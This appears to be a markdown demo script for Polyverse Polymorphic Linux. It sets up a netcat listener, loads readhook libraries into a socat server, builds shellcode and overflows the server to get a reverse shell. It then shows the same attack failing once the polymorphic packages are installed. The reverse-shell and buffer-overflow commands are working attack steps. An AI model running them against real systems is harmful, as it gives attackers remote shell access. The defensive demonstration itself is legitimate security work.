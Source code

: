 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run a simple socat echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
    docker run --rm -it -p 8080:8080 alpine:3.7 sh
### (2) We'll need curl and wget
#### (2) Alpine
    apk update && apk add curl socat wget
#### (2) CentOS
    yum update -u && yum install -y curl nc socat wget
#### (2) Ubuntu
    apt-get update -y && apt-get install -y curl netcat socat wget
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so
### (2) Start nc with readhook in front of libc
    socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD='/tmp/fullhook.so:/tmp/basehook.so' /bin/cat"
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
### (2) Re-start nc with minimal readhook in front of libc
    socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
### (3) Send shell-code to the OVERFLOW for a reverse shell
    echo $shellCode | nc localhost 8080
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    # (Execute the command given at the end of the previous step)
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
    socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
### (3) Try the shellCode with Polymorphic Linux
    echo $shellCode | nc localhost 8080
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
